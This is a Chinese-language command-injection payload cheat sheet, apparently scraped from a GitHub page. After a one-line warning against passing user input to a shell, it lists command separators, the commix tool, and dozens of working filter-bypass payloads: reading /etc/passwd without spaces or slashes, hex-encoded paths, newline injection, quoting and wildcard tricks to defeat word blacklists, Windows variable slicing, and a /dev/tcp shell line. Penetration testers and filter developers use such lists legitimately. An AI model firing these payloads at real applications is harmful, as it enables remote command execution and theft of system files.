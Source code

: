     	有时应用程序会接受用户提供的输入并作为参数传递给命令行上的工具。 将用户提供的输入传递给命令行总是一个坏主意，应该避免。 根据操作系统，您可以使用多种技术来执行其他命令，从而允许攻击者获得 RCE
    	& 
    	&&
    	|
    	||
    	;
    	`Command`
    	$(Command)
 #### 工具
  	https://github.com/commixproject/commix
 #### 绕过 bypass
 ##### Linux无空格
	cat</etc/passwd
	{cat,/etc/passwd}
	cat$IFS/etc/passwd
	echo${IFS}"RCE"${IFS}&&cat${IFS}/etc/passwd
	X=$'uname\x20-a'&&$X
	sh</dev/tcp/127.0.0.1/4242
	IFS=,;`cat<<<uname,-a`
	;ls%09-al%09/home
 ##### Windows
	ping%CommonProgramFiles:~10,-18%IP
	ping%PROGRAMFILES:~10,-5%IP
 ##### 绕过回车
	something%0Acat%20/etc/passwd
	写文件
	;cat>/tmp/hi<<EOF%0ahello%0aEOF
	;cat</tmp/hi
	hello
 ##### 通过十六进制编码绕过
  	Linux
	cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`
	abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat $abc
	`echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`
	cat `xxd -r -p <<< 2f6574632f706173737764`
	cat `xxd -r -ps <(echo 2f6574632f706173737764)`
 ##### 绕过字符过滤器
	没有反斜杠和斜杠的命令执行
	cat ${HOME:0:1}etc${HOME:0:1}passwd
	cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
 ##### 绕过列入黑名单的词
  	单引号w'h'o'am'i
	双引号w"h"o"am"i
	用反斜杠和斜杠绕过
	w\ho\am\i
	/\b\i\n/////s\h
	使用 $@ 绕过
	who$@ami

	echo $0
	-> /usr/bin/zsh
	echo whoami|$0
	使用 $() 绕过
	who$()ami
	who$(echo am)i
	who`echo am`i
	使用变量扩展绕过
	/???/??t /???/p??s??

	test=/ehhh/hmtc/pahhh/hmsswd
	cat ${test//hhh\/hm/}
	cat ${test//hh??hm/}
	使用通配符绕过
	powershell C:\*\*2\n??e*d.*? # notepad
	@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc